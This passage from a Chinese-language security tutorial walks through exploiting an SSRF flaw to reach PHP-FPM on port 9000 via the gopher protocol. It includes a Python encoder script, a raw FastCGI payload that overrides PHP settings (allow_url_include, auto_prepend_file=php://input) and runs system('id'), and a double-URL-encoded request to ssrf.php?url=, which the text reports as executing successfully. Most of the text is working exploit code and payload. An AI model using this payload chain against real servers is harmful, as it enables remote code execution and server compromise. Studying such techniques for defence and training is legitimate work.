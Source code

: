 
文件里的内容有部分是不可见字符，这里需要 url 编码一下，这里写一个 Python 脚本对文件中的内容进行编码

```plain
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

执行上面的 python 脚本生成如下 payload：

```plain
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%14%04%00%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Ddisable_functions%20%3D%20%0Dsafe_mode%20%3D%20Off%0Dauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%00%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0D%27%29%3B%3F%3E
```

之后我们还要对上面的 payload 进行二次 url 编码，然后将最终的 payload 内容放到？url=后面发送过去（这里需要进行两次编码，因为这里 GET 会进行一次解码，curl 也会再进行一次解码）：

```plain
ssrf.php?url=gopher%3A//127.0.0.1%3A9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2514%2504%2500%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509%255BPHP_VALUEallow_url_include%2520%253D%2520On%250Ddisable_functions%2520%253D%2520%250Dsafe_mode%2520%253D%2520Off%250Dauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2500%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----0vcdb34oju09b8fd-----%250D%2527%2529%253B%253F%253E
```

如下图所示，命令执行成功：

[![](assets/1698897074-faaa9d308c37bdc5e4cbe084f949d0ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-90055350-b2e5-1.png)

